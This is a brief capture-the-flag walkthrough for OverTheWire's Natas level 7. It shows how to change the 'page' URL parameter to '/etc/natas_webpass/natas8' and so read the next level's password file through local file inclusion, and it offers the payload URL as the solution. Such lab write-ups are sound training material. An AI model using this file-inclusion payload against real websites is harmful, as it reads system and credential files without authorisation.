 # natas7
In the source code URL, you see
```
view-source:http://natas7.natas.labs.overthewire.org/index.php?page=home
```
This shows us the home page. As mentioned, just change home to 
```
view-source:http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
and you get the password! This is php, you should know somethings on how it works.
